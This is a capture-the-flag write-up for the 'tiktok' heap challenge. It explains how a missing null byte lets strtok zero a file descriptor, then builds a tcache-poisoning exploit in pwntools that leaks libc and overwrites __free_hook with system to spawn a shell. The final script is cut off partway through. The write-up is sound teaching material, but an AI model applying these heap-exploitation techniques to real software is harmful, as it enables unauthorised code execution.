




# TikTok

**If you've ever wondered 'Which Ke$ha songs are short enough to fit into a Tcache bin?' this is the challenge for you.**

### Challenge Files

We were given a binary, a libc library and 4 folders (i.e. "albums") with Ke$ha song lyrics inside.  

+  **`tiktok`**

The challenge binary 

```
➜ file tiktok
tiktok: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=67770a05ca9e8cc1057161a438e9da38c66321a9, not stripped

➜ checksec tiktok
[*] '/home/.../dawgctf2020/tiktok'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

+ **`libc-2.27.so`**

This is the version of libc the challenge server is using. 

+ ***`Animal/*, Warrior/*, Cannibal/*, Rainbow/*`***

Four folders for each of Kesha's albums, which contain their respective songs as `.txt` files, each beginning with the length of the song in bytes. For example
```
➜ cat Animal/tiktok.txt
2117
Wake up in the morning feeling like P Diddy (Hey, what up girl?)
Grab my glasses, I'm out the door; I'm gonna hit this city (Let's go)
Before I leave, brush my teeth with a bottle of Jack
'Cause when I leave for the night, I ain't coming back
...
```

# strtok() on the clock but the party don't stop, no 

The very first step, and probably the most important part of solving this challenge, is to put on Ke$ha. Personally, I preferred her most recent album for finding the vuln, and her earlier work for exploiting it, but to each their own. 

Now let's run the binary. This is the output:

```
➜ ./tiktok
Welcome to my tik tok rock bot!
I really like Ke$ha, can you help me make a playlist?

So what would you like to do today?
1. Import a Song to the Playlist
2. Show Playlist
3. Play a song from the Playlist
4. Remove a song from the Playlist
5. Exit
Choice:
```

Next we decompile the binary. Option 2 and 5 are rather straightforward (2 outputs the playlist and 5 exits the program), but Options 1, 3, and 4 look interesting, so we'll look at the functions that get called for those options. 

### Import Song

Below is the edited decompilation of `import_song`, the function that gets called when selecting Option 1. 


When `listoptions()` gets called it will `ls -R` the directory it's in. If we netcat into the server running this challenge we can select `1. Import a Song to the Playlist` and the contents of the challenge's directory will get listed. Doing this shows it contains a `flag.txt` and the same song folders and files that we have. 

From lines 20-24 we can see that the user supplies a file path that must exist, can't contain the strings `"flag"` and `".."` and must begin with a capital letter between A and Z (no absolute paths). Given the contents of the challenge directory, the only available option is to send a path of one of the song files, i.e. `<Album_Name>/<song_name>.txt` (*or* just the path of an album directory, i.e. `<Album_Name>/`, which will be relevant later). 

The file path is getting read into an global array of structs, which is our playlist of imported songs. This is stored in the `.bss` section, which is readable and writeable (but not executeable). Each struct is 56 bytes long, with 7 fields. The decompilation is a little wonky, but `hacky_...` refers to the fields in the first struct in the array. `hacky_fd_reference` is cast as a `DWORD` pointer, whereas everything else is cast as a `QWORD` point so that's why it's being increased `14 * song_ctr` rather than `7*song_ctr`. Below is what the song struct looks like. 


The first 24 bytes of the struct is a 24 bytes array of the song file path. Directly below it is a 4 byte file descripter that gets assigned when the file path is opened. Below that is 4 bytes of padding, and then 3 pointers. The first pointer will point at the file path, the second will point at the file name and the third will point into the heap (given intended program behavior). 

Where do the first two pointers get assigned? In lines 30 and 32, with Ke$ha's favorite libc function, [strtok](http://www.cplusplus.com/reference/cstring/strtok/). While my first instinct was to look there for vulnerabilities, that would be a rookie mistake. Clearly the first thing any good CTF player would do in this situation is put on [TikTok](https://www.youtube.com/watch?v=iP6XpLQM2Cs) by Ke$ha.

Now that the ambiance is set, we can look at the strtoks. The first strtok scans the `song_file_path` to find a token ending in the `/` character. Once done, it replaces that with a null byte, and returns a pointer to the beginning of the token. The second strtok starts at the byte afterwhich the last strtok call left off, so in this case the beginning of our song name, and scans until it finds a `.` character, at which point it replaces that `.` with a nullbyte and returns a pointer to the beginning of the song name. 

This is all just a very verbose way of saying that it parses the parent directory and song name into seperate strings, stripping off the '/' and '.txt'.  
i.e. for `songs[i].song_file_path = "Animal/tiktok.txt"`
```
songs[i].song_file_path = "Animal" + 0x00 + "tiktok" + 0x00 + "txt"

songs[i].song_dirname_ptr = &hacky_dir_reference + 7*i -> 'Animmal' 
songs[i].song_name_ptr = &hacky_name_no_reference + 7*i -> 'tiktok'
```

Now this all becomes very interesting when you realize two things. 

1) The `read` on line 10 reads in up to 24 bytes, exactly the size of `songs[i].song_file_path`. This means that if the user gives a filepath that is 24 bytes long, no null byte will be appended on the end. In each song struct, `songs[i].song_file_path`resides directly above `songs[i].fd` which brings me to 2). 

2) The file descriptor being saved in the struct is already suspicious, and now looks even more so. The first three fds for a Linux process, fd = 0, 1, 2 will (unless otherwise specified) be assigned to stdin, stdout and stderr. So when `open` is called, it will assign a new fd to the file it's opening, beginning with fd = 3. Every time a song is imported a new fd is opened for it, and won't get closed until the user chooses to remove the song. That means that were the user to import, say, 44 songs, `songs[43].fd = 46`, which just so happens to be the ASCII code for `.`.
```python
➜  python3
>>> chr(46)
'.'
```
If I import a song path of 24 bytes on my 44th import, and my song path contains no `.` character, then strtok will overwrite the song's file descriptor with a nullbyte, i.e. `songs[43].fd = 0`. A songs file descriptor gets read from when a song is played (we'll see this when we look at the `play_song` function, which means that if I were to play the 44th song, the program would take in input from stdin!

What can we do with this behavior? Well, we need to look at where the fd gets read from, which is in `play_song` (Option 3). 

### Play Song


If a song has not yet been played, i.e. it's `lyrics_ptr_to_heap` has not been set (line 26), `play_song` will read in a line telling it the size of the file (`nbytes`). As you can see in the example song file shown above `Animal/tiktok.txt`is 2117 bytes. If we are inputting from stdin, we could put in a file size of our choosing, including -1. Then, our program mallocs a chunk of exactly `nbytes + 1` (if we were to give -1 as the size `nbytes` then it would `malloc(0)`. It then calls `memset` on the bytes just malloc'd, setting them to null bytes. Then it reads in `nbytes` of data into a heap chunk. If `nbytes = -1` it would read in -1 bytes which, as an unsigned int, is a lot of bytes (the value will wrap around to MAXINT). So with this, we can import 44 songs, and use the last one to overwrite a heap chunk. 

Before we move on to exploitation, let's put look at the last function of interest.

### Remove Song


Option 4 allows a user to remove a song, which sets its struct pointer to null, calls `free` on its lyrics pointer, and closes its file descriptor. It doesn't decrement song count however (although this never matters). 

So, given the `malloc` and `free` it seems like we're working with a heap challenge. 

# How many Ke$ha songs fit into a tcache bin?

**Spoiler:** This is how the eventual exploit will work. We're going to use this overflow to overwrite the next three chunks. In the first one we're going to put a `//bin/sh` for future use. In the following two chunks, which will be of differing sizes (0x20 and 0x310), we're going to overwrite the tcache next pointers. We're going to point the tcache pointers in both of these chunks into the .bss at the `songs` array. We're going to use the first corrupted tcache pointer (0x20) to memset the file descriptor at `songs[0].fd` to be 0 for STDIN. Then we're going to use our second corrupted tcache pointer (0x310) in conjunction with this read from STDIN by giving a song size of 0x310 ensuring we get our second tcache pointer back into the .bss section. We use this to clobber the next three songs, verwriting the lyrics pointer of songs[1] with a GOT address (I chose the strtok() function) and overwriting the file descriptors of songs[2] and songs[3] with 0. Now playing song[1] will give us a libc address leak. Now we use songs[1] to read -1 bytes from stdin and overflow another heap chunk in the same way we did the first. This time we overflow a freed chunk of size 0x3c0, and point it's tcache pointer at the `__free_hook` in libc. Then we use songs[2] in conjuction with this corrupted tcache pointer to overwrite the `__free_hook` with `system.` Now when we call `remove_song` on the song pointed at the chunk we wrote `//bin/sh` into, it will call `system("//bin/sh")` and we have a shell!

First, let's check to see if that vulnerability works how we think it does. 

```python
from pwn import *

p = process(["rr", "record", "./tiktok"])
# p = process("./tiktok") # for running without rr 

def import_song(path):
    p.readuntil("Choice:")
    p.sendline("1")
    print(p.readuntil("Please provide the entire file path."))
    p.sendline(path)
    
def play_song(song):
    p.readuntil("Choice:")
    p.sendline("3")
    p.readuntil("Choice:")
    p.sendline(song)

def remove_song(song):
    p.readuntil("Choice:")
    p.sendline("4")
    p.readuntil("Choice:")
    p.sendline(song)
    
for i in range(1, 44):
    import_song("Animal/godzilla.txt")

album = "Cannibal"
import_song(album + "/" * (24-len(album))) 

play_song("44")
p.sendline("-1")

play_song("44")
p.sendline("-1")
p.send("A" * 100)

p.interactive()
```
To make it easier, I defined a couple helper functions from the start. I'm also running the binary with [https://rr-project.org](https://rr-project.org/) which is great, and I highly recommend it. It records the execution and allows you to step through it as you would in gdb normally (with gef/peda/etc.) but you can also reverse-continue, reverse-step, reverse-next, etc. 

I imported 43 songs normally and for the 44th one, I gave it the file path `Cannibal////////////////` since the name must be 24 bytes without any '.' for this to work. Then I play that song, giving it -1 as a file size and a bunch of 'A's. Let's see what happens in rr/gdb/gef. 

At the end of execution, here is what the song struct array looks like. For the 43 normal song structs, they look like this:



This has been given 19 as its file descriptor at 0x404548. The lyrics pointer at the bottom is null because the song hasn't been played yet. Now let's look at song #44:


Where there's a 19 in the first struct, there's a 0 in this one where there should be a 46 (at 0x4049e0), and the lyrics pointer to the heap at the bottom of the struct looks promising. Let's see what our heap looks like: 

 

Great, we have a heap overflow! The size of the top chunk has been overwritten with `A`. Now we have to make this useful somehow. 

## What even is a tcache? 

_(If you're already familiar with tcache attacks, or don't really care, you can skip the next two sections)_

Given that this is libc-2.27.so, that means that the heap will have tcache bins. Tcache is a set of 64 singly linked lists, one for increasing chunk sizes up to 1032 (at least for libc-27). When a chunk within this size range gets free, it will end up in its corresponding tcache bin if there's room (each bin holds up to 7 chunks). Conversly, when a chunk in this size range is requested by the program, the heap manager checks it's corresponding tcache bin _first_ to see if there's a freed chunk it can use. Tcache was added to improve performance, and as such they removed many of the security checks, which will be useful to us in this challenge. 

[This](https://syedfarazabrar.com/2019-10-12-pico
-2019-heap-challs/) is a great writeup of a tcache attack, which goes into detail on the glibc heap implementation . It also contains some helpful diagrams of heap chunks which I've adapted for this post.

Below is a diagram of an allocated chunk on the heap. The first 16 bytes of a chunk (the first and second row) are part of the chunk's 'header'. If the previous chunk is freed, the first 8 bytes contain the size of the previous chunk. The second 8 bytes then contain the chunk's own size. After the header is where the chunk's data is stored. This is where the address of the chunk begins (and where the pointer returned by malloc will point). When a chunk is allocated, it uses the top 8 bytes of the next chunk's header as part of its data space. 

```     
                <--------------------------- 8 bytes --------------------------->

     chunk B    +- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -+
                | Size of previous chunk, if unallocated (P = 0)                |
                +---------------------------------------------------------------+
                | Size of chunk B, in bytes                               |A|M|P|
address of B -> +---------------------------------------------------------------+   --+
                | Chunk B data                                                  |     |   
                .                                                               .     |
                .                                                               .     |___ chunk B's usable data  
                .                                                               .     |    space when in use
     chunk C    +- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -+     |    (malloc_usable_size() bytes)
                | Size of chunk B if B is freed, otherwise used for chunk B data|     |
                +---------------------------------------------------------------+   --+
                | Size of chunk C, in bytes                               |A|M|1|
address of C -> +---------------------------------------------------------------+

```


AMP are bits with information on the heap, P is the only one we care about: it will get set if the previous chunk is in use (i.e. not freed). However when a freed chunk gets put in a tcache bin, the `P` bit of the next element _still_ remains set. This is so the heap manager will ignore this chunk when it sweeps for free chunks to coalesce (tcache chunks don't get included in coalescing).

When a chunk gets freed and pushed onto the top of a tcache bin (which is a singly linked list), it becomes the new head chunk and stores a pointer the old head chunk of the tcache bin. If a tcache bin has two elements, chunk A and chunk X in it with X as the head element, it may look like this

```
 (free)
 chunk B    +- - - - - - - - - - - - - - - - - - - - - - - - - -+           
            | Size of prev chunk, if unallocated (P = 0)        |           
            +---------------------------------------------------+         
            | Size of chunk B                             |A|M|P|             
            +---------------------------------------------------+           
tc bin ->   | Pointer to next chunk in tcache bin               | --->
            +-    -    -    -    -    -    -    -    -    -    -+     |          
            .                                                   .     |      
            . Unused space                                      .     |           
            .                                                   .     |       
chunk C     +- - - - - - - - - - - - - - - - - - - - - - - - - -+     |      
            | Unused space (chunk C in tcache so still "in use")|     |     
            +---------------------------------------------------+     |      
            | Size of chunk C                             |A|M|0|     |      
            +---------------------------------------------------+     |   
                                                                      |
            ~                                                   ~     |
            ~                                                   ~     |
            ~                                                   ~     |
 (free)                                                               |
 chunk X -- +- - - - - - - - - - - - - - - - - - - - - - - - - -+     |      
            | Size of prev chunk (if unallocated)               |     |      
            +---------------------------------------------------+     |    
            | Size of chunk X                             |A|M|P|     |      
            +---------------------------------------------------+     V      
tc bin ->   | Null pointer (no next tcache element)             |  <--
            +-    -    -    -    -    -    -    -    -    -    -+                                                  |          
            .                                                   .           
            . Unused space                                      .                
            .                                                   .          
 chunk Y    +- - - - - - - - - - - - - - - - - - - - - - - - - -+             
            | Unused space (chunk X in tcache so still "in use")|           
            +---------------------------------------------------+           
            | Size of chunk Y                             |A|M|0|            
            +---------------------------------------------------+           
```
Tcache bins are, for lack of a better term, **dumb**. If chunk B is in the tcache and you overwrite the pointer to the next tcache chunk with your own address, when chunk B is at the head of tcache bin and then gets reallocated the tcache think its _new_ head is whatever is at the address you overwrote. _It doesn't even check if that new address is on the heap_. We can use our overwrite to allocate a chunk anywhere in writeable address space.  

Let's say we we have allocated a `chunk A` right on top of `chunk B`, both with size 0x20. We first free `chunk B` and it ends up in the tcache for size 0x20, which previously contained `chunk X` at it's head:

```
tcache bin 0x20 -> chunk B -> chunk X -> null
```
Then we free `chunk A` and it ends up in the same bin: 

```
tcache bin 0x20 -> chunk A -> chunkB -> chunk X -> null
```
When we play song #44 we are calling malloc(0). Even though we're asking for 0 bytes, this means chunk W will have a size of 0x20 (the smallest possible heap chunk). The heap manager will see that the tcache bin for 0x20 isn't empty, so it take the first chunk, `chunk A`, and return a pointer to the data section of `chunk A`. Now our tcache bin looks like this: 

```
tcache bin 0x20 -> chunk B -> chunk X -> null
```
Next the program reads MAXINT bytes from STDIN (fd = 0) into the data section of `chunk A`. We first write 0x10 (16) null bytes into the data section of A. Then we overwrite the next 8 bytes with null bytes. This is technically part of the header of `chunk B` but is used for the data of `chunk A` because this is tcache and `chunk A` is still considered "in use". Then we overwrite the size and AMP bits of `chunk B` with the same bytes that were already there (0x21). Now we've reached the pointer to the next chunk in the tcache bin, which we overwrite with a pointer to the the first song struct in the songs array, `songs[0]` (which is in the `.bss` section _not the heap_). Specifically we can point it at its file descriptor, `songs[0].fd`. 

```

       chunk A  +- - - - - - - - - - - - - - - - - - - - - - - - - - -+           
                | Size of prev chunk, if unallocated (P = 0)          |           
                +-----------------------------------------------------+         
We start        | 0x21 = 0x20 + 0001b = Size of A (0x20) + AMP (0|0|1)|            
writing here -> +-----------------------------------------------------+           
                | <0x0000000000000000>                                |
                +                                                     +
                | <0x0000000000000000>                                |            
(free) chunk B  +- - - - - - - - - - - - - - - - - - - - - - - - - - -+           
                | <0x0000000000000000>                                |           
                +-----------------------------------------------------+         
                | <0x0000000000000021> Size of B (0x20) + AMP (0|0|1) |         addr = 0x404078
                +-----------------------------------------------------+         +---------------+      
      tc bin -> | <0x0000000000404078>                                | ----->  |songs[0].fd = 3|
                + -    -    -    -    -    -    -    -    -    -    - +         +---------------+     
                |                                                     |                    
      chunk C   +- - - - - - - - - - - - - - - - - - - - - - - - - - -+            
                | Unused space (chunk C in tcache so still "in use"   |           
                +-----------------------------------------------------+            
                | Size of chunk C                               |A|M|P|            
                +-----------------------------------------------------+

                        
```
When we next play a song of size 0 the program will call `malloc(0)` again, and the heap manager will give us the next chunk in its tcache bin for 0x20, `chunk B`. When it removes `chunk B`, it will take the pointer we overwrote in B, and make that the new head element:
```
tcache bin 0x20 ->  0x404078
```
Now when we play anotherr song of size 0, the heap manager will give us 0x404078!

## Now let's use like every gdb add-on ever

What does this look like within the actual program, using gdb + rr + gef + pwndbg? First we need a way to import and play songs of 0 bytes, which at first doesn't seem possible because all available files have at least 700 bytes. However, by importing just a directory name, we can create songs of 0 bytes. 

```python

for i in range(1,20): # songs 1 - 19 = 0x20 bytes
    import_song("Warrior/")
    
for i in range(20, 30): # songs 20 - 29 = 0x310 bytes
    import_song("Rainbow/godzilla.txt")
    
for i in range(30, 36): # songs 30 - 35 = 0x3c0 bytes
    import_song("Animal/animal.txt")

for i in range(36, 44): # songs 36 - 43 = 0x20 bytes
    import_song("Rainbow/")

album = "Cannibal"
import_song(album + "/" * (24-len(album))) 

play_song("11") # song 44 chunk = "chunk A"
play_song("12") # 0x20 chunk = "chunk B"
play_song("21") # 0x310 chunk  
play_song("13") # 0x20 chunk = "chunk X"

remove_song("13") # free chunk X
remove_song("12") # free chunk B
remove_song("11") # free chunk A

play_song("44") # Removes chunk A
p.sendline("-1") 
chunkA = p64(0x00) * 2 
chunkB = p64(0x00) + p64(0x21) + p64(0x404078) # address of songs[0].fd

p.send(chunkA + chunkB) # Overwrites chunks A and B

```
This is what the heap looks like after we've free'd our chunks but before we play song #44.



These addresses will change on future runs, because the address of the heap is subject to ASLR, but for now:

```
chunk A = 0x1ad1290
chunk B = 0x1ad12b0
chunk X = 0x1ad15e0
```
It's important to note that because the `.bss` section is part of the binary and there is no PIE, those addresses remain the same. So the address of `songs[0].fd` will always be `0x404078`.

After we play song #44 and send our data, this is what the heap looks like:



As you can see the pointer to the next tcache chunk in `chunk B` now reads `0x404078`! This is what this looks like on the heap, starting from the header of `chunk A`.


You also may notice that gef doesn't like what we've done and can't print out the tcache. Luckily, calling heapinfo with [pwngdb](https://github.com/scwuaptx/Pwngdb) still works:


Because the heap thinks that `songs[0].fd = 3` is a chunk in the tcache, it thinks that 3 is the next tcache pointer from it. That won't matter to us unless we mess up and try to allocate another chunk of 0x20 without putting more chunks into the 0x20 tcache bin. 

You can also call `vmmap` in gef to get the base address of the heap and `tele` that address to find the actual place in memory where the heap stores the tcache bins (which are at the start of the heap). This is what it looked like **before** we freed everything: 


and *after*:


# Let's clobber some Ke$ha songs 

So our current goal is to overwrite the file descriptor with 0 so we can read more data into the program, but we've already used up our 1 write. Because the program checks if a song's lyrics pointer is null before reading from its file descriptor, after the first time we play song #44 playing it again will just output whatever is at the lyrics pointer.  So even though we can allocate a chunk over `songs[0].fd` we can't write to it. 

Luckily the program will do that for us! When we play any song of size 0 so the program memsets exactly 1 null byte of the address of the chunk returned by malloc (line 37 of play_song). So if malloc gives use the address to `songs[0].fd` the program will kindly will overwrite `songs[0].fd = 3` to be `songs[0].fd = 0`! (Then it will read in 0 bytes of data, which neither helps or hurts us.)

```python

# tcache bin 0x20 -> chunk A -> chunk B 

play_song("44") # Reads from STDIN

# malloc(0), which removes chunk A
p.sendline("-1") # Size of "lyrics"

# Fills chunk A nullbytes
chunkA = p64(0x00) * 2 
# Overwrites chunk B tcache ptr w/ addr of song[0].fd
chunkB = p64(0x00) + p64(0x21) + p64(0x404078) 
p.send(chunkA + chunkB) 

# tcache bin 0x20 -> chunk B -> 0x404078

play_song("17") # Removes chunk B from tcache

# tcache bin 0x20 -> 0x404078

play_song("18") # Removes 0x404078 from tcache 
                # and memsets songs[0].fd to 0 

```

We can now send data through STDIN one more time, but that doesn't allow us to write anywhere besides a new heap chunk, which isn't too helpful unless we can control where that heap chunk is. In order to do that we need to amend our strategy. 

Let's use the first overwrite with song #44 to overwrite more than one chunk. After we've already corrupted the tcache bin for 0x20 we can't exploit it again until we free and overwrite more chunks (which we can't do without the ability to write more). Luckily a few of Ke$ha's songs are within tcache range, including Godzilla from the album Rainbow and the titular song from the album Animal. 

So now we need to construct our heap so that the chunk for song #44 (`chunk A`) will overflow first a chunk of 0x20 with a pointer to `songs[0].fd`, then a chunk of 0x310 (the size of `Rainbow/godzilla.txt`) with a pointer to `songs[1]` which is song #2. We can do this with: 

```python 

""" Import the same songs as before """

# Allocate our main chunks 
play_song("11") # A: 0x20 chunk, this will get reused for the song #44 chunk
play_song("12") # B: 0x20 chunk, overwritten with ptr to 0x404078 
play_song("21") # C: 0x310 chunk, overwritten with ptr to 0x4040b0

# Allocate some chunks to provide buffer in the tcache
play_song("22") # D: 0x310 chunk 
play_song("13") # E: 0x20 chunk
play_song("23") # F: 0x310 chunk

# Fill the tcache bin for 0x20
remove_song("13") # Remove E
remove_song("12") # Remove B
remove_song("11") # Remove A

# Fill the tcache bin for 0x310
remove_song("23") # Remove F
remove_song("22") # Remove D
remove_song("21") # Remove C

```
Populating a tcache bin with other chunks first allows some buffer for `malloc()` checks. Our heap now looks like:

```
+---------------------+      
|  A: song #11 (FREE) | 0x20
+---------------------+  
|  B: song #12 (FREE) | 0x20
+---------------------+ 
|  C: song #21 (FREE) | 0x310
+---------------------+ 
|  D: song #22 (FREE) | 0x310
+---------------------+ 
|  E: song #13 (FREE) | 0x20
+---------------------+ 
|  F: song #23 (FREE) | 0x310
+---------------------+ 

tcache:
bin 0x20  -> A -> B -> E
bin 0x310 -> C -> D -> F
```

Now we overwrite chunks `B` and `C` by overwriting from `A` which will now be used for song #44: 

```python
play_song("44")
p.sendline("-1")
# Fills chunk A nullbytes
chunkA = p64(0x00) * 2 
# Overwrites chunk B tcache ptr w/ addr of song[0].fd
chunkB = p64(0x00) + p64(0x21) + p64(0x404078) + p64(0x00) 
# Overwrites chunk C tcache ptr w/ addr of song[1].lyrics_ptr
chunkC = p64(0x00) + p64(0x311) + p64(0x404080) 

p.send(chunkA + chunkB + chunkC)

# tcache bin 0x20  -> B -> 0x404078 (songs[0].fd)
# tcache bin 0x310 -> C -> 0x4040c8 (songs[1].lyrics_ptr)

# Play songs of size 0
play_song("17") # Removes B from tcache
play_song("18") # Removes 0x404078 from tcache 
                # and memsets songs[0].fd to 0 

# Play song of size 767
play_song("27") # Removes C from tcache

# tcache bin 0x20  -> corrupted 
# tcache bin 0x310 -> 0x404c8 (songs[1].lyrics_ptr)

```

We do the same thing as before to memset `songs[1].fd` to 0. Then we allocate a chunk of size 0x310 to remove `C` from the tcache. Once done, we play song[0] i.e. song #1, which will read from stdin. We tell it that we want a chunk of size 0x310 by inputting the same byte size as `Rainbow/godzilla.txt` which is `"767"`. Then the heap manager returns us `0x4040b0` from its 0x310 bin, and we're in business. 

```python

# tcache bin 0x310 -> 0x404080 (songs[1])

play_song("1") # Reads from STDIN, songs[0] = song #1
p.sendline("767") # Gives us 0x04040b0 from tcache

```

Whereas with songs[0].fd we could only memset one measly byte of the songs array, we can write 767 bytes, which is more than enough to overwrite multiple file descriptors with null bytes. But what exactly do we want to do with that? 

So our game plan going forward is a product of the protections placed on the binary. There's [full RELRO](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html) so we can't overwrite the GOT, which contains the addresses of dynamically linked library functions. But what we can do is overwrite the `__free_hook` in glibc.

# "It's a dirty free [hook] for all" - Ke$ha, Take It Off

The GNU C Library (glibc) kindly provides the ability to override the address of malloc(), free() and several other malloc functions. Paraphrased from the [man page](http://man7.org/linux/man-pages/man3/malloc_hook.3.html):

```
Name
----

__free_hook 

Synopsis
--------

#include <malloc.h>

void (*__free_hook)(void *ptr, const void *caller);

Description
-----------

The GNU C library lets you modify the behavior of free(3) by specifying appropriate hook functions.
You can use this hook to help you debug programs that use dynamic
memory allocation, for example.

The function pointed to by __free_hook has a prototype like the function free(3) except that it has a final argument caller that gives the address of the caller of free(3), etc.

```

`__free_hook` is a function pointer that correspond to `free()` etc. If the hook is set to null free() will be called as normal. However if the hook points to an address, it will override the default free() function. The same exists for malloc, realloc, and memalign.

When `free()` is called the first thing glibc does is check the if the `__free_hook` is set. If so, it executes code at the address stored in `__free_hook` as seen [here](https://code.woboq.org/userspace/glibc/malloc/malloc.c.html#__libc_free):


```c
void
__libc_free (void *mem)
{
  mstate ar_ptr;
  mchunkptr p;                          /* chunk corresponding to mem */
  void (*hook) (void *, const void *)
    = atomic_forced_read (__free_hook);
  if (__builtin_expect (hook != NULL, 0))
    {
      (*hook)(mem, RETURN_ADDRESS (0));
      return;
    }
```
tl;dr if we can write to the `__free_hook`, we can write the address for `system()` and invoke `system("/bin/sh")` if we call `free` on a heap chunk that begins with `//bin/sh` followed by a null byte. This works because system takes a pointer to a character array, and a pointer to a libc chunk that begins with these characters is the same thing. 

# What does a Ke$ha song and this exploit have in common? A good hook

Because we are given the libc that is running on the server, we know where the `__free_hook` is within it, i.e. we know what offset it's at from the base of libc. But we don't know what address the base of libc will be while our program is executing because of [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization). So we need to leak an address in libc. 

Luckily we can find libc by overwriting the lyrics pointers in a song struct. When we call `play_song` for that song, if the lyrics pointer is not null it will print out whatever it's pointing at. If we point it at the GOT, it will point out an address in libc. We know where the GOT because it's at a fixed address as the binary doesn't have PIE enabled, and the GOT contains function pointers to libc. All we need to get is any address in libc to figure out the base address. 

There's obviously only one GOT entry worth using, `.got:strtok_ptr` which is at `0x403fc8`. So when we point song #1 at an address in song #2, we choose the lyrics pointer and overwrite it with this address. Then we continue overwriting to set the file descriptors of song #3 and song #4 to 0. 

```python
play_song("1")
p.sendline("767")

# add of .got:strtok_ptr
strtok_got_addr = p64(0x403fc8)

#We have have to overwrite song #3 and #4 with a valid dirname ptr or the program will crash. (I was too lazy to debug why)

#song     = name       + fd     + dirnameptr    + nameptr + lyricsptr
fake_song = p64(0) * 3 + p64(0) + p64(0x404098) + p64(0)  + p64(0)

p.send(strtok_got_addr + fake_song * 2)
```  

```python
play_song("2") # Trigger leak
# Parse out address leak
strtok = u64(p.readuntil("So").split(b"\n")[-2] + b'\x00\x00')

libc = ELF('./libc-2.27.so') # Load our libc

# Subtract strtok's offset from libc base from the absolute strtok 
# address we leaked to set the libc base address
libc.address = strtok - libc.symbols['strtok'] 

# Get the absolute addresses for __free_hook and system
free_hook = libc.symbols['__free_hook'] 
system_addr = libc.symbols['system']
```

Now that we have a leak we can use the same techniques we've used to get to this point to overwrite the freehook. 

We use the first of our two songs with file descriptors of 0 to do a second heap overflow and overwrite another tcache next pointer with the address of the free hook. For this we'll use a 0x3c0 chunk with the song `"Animal/animal.txt"`. Then we can use the second song to write the address of `system` to the freehook. 

Once we do that all we need is a heap chunk that starts with the memory "//bin/sh" followed by a null byte. We can go back to our first heap overflow and overflow an extra chunk of 0x20 and write "//bin/sh" to it. We're going to also need to allocate some more chunks to perform the second overflow and write. All in all, this is what the final exploit will look like: 

# Exploit

```python

from pwn import *

p = process(["./tiktok"])

def import_song(path):
    p.readuntil("Choice:")
    p.sendline("1")
    print(p.readuntil("Please provide the entire file path."))
    p.sendline(path)

def show_playlist():
    p.readuntil("Choice:")
    p.sendline("2")
    
def play_song(song):
    p.readuntil("Choice:")
    p.sendline("3")
    p.readuntil("Choice:")
    p.sendline(song)

def remove_song(song):
    p.readuntil("Choice:")
    p.sendline("4")
    p.readuntil("Choice:")
    p.sendline(song)

def exit_tiktok():
    p.readuntil("Choice:")
    p.sendline("5")

""" Import Songs """
for i in range(1,20): # songs 1 - 19
    import_song("Warrior/")
    
for i in range(20, 30): # songs 20 - 29
    import_song("Rainbow/godzilla.txt")
    
for i in range(30, 36): # songs 30 - 35
    import_song("Animal/animal.txt")

for i in range(36, 44):
    import_song("Rainbow/")

# 44th song with fd = 46
album = "Cannibal"
import_song(album + "/" * (24-len(album))) 

""" Prepare Heap and Bins """

# Allocate chunks for first overflow
play_song("11") # A: 0x20 chunk, used for the song #44 chunk
play_song("12") # Z: 0x20 chunk, overwritten w/ ptr to 0x404078  
play_song("19") # B: 0x20 chunk, overwritten by //bin/sh 
play_song("21") # C: 0x310 chunk, overwritten w/ ptr to 0x4040b0

# Allocate ancillary chunks to provide buffer in the tcache
play_song("22") # D: 0x310 chunk 
play_song("13") # E: 0x20 chunk
